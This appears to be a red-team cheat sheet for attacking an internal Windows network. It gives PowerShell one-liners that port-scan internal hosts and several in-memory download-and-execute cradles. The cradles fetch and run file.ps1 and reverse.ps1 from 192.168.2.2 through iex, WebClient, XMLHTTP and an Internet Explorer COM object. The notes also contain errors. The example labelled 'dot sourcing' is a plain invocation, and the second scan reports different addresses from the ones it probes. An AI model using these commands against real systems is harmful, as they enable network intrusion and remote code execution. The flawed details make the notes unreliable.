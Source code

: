 ### Red Team Internal Environment

#### Introduction 

- Tools like nmap, netcat or built-in utilities like PowerShell can also be used for enumeration purposes. 
- Below is the command for scanning open TCP ports from a PowerShell Query.

```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null  
```

- Below command will scan IP addresses 10.1.1.1-5 and some specific common TCP ports.

```powershell
 1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}
```

- Invoking a PowerShell Module 
- Scripts with extension “*.ps1”, “*.psm1”, “*.psd1” etc can be invoked in a specific 
- PowerShell session as follows : 

```powershell 
Import-Module <Module_Name.ps1>
```

- However a PowerShell script can be invoked in a unique way called “dot sourcing a 
script” 

```powershell
.\<Script_Name>.ps1
```

- PowerShell in-memory Download and Execute cradle :  

```powershell
iex (iwr 'http://192.168.2.2/file.ps1')

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1") 
$read = $down.GetResponse() 
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()


$file=New-Object -ComObject 
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.s
end();iex $file.responseText

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

$ie=New-Object -ComObject 
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘); 
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response 
```

### PowerView Enumeration
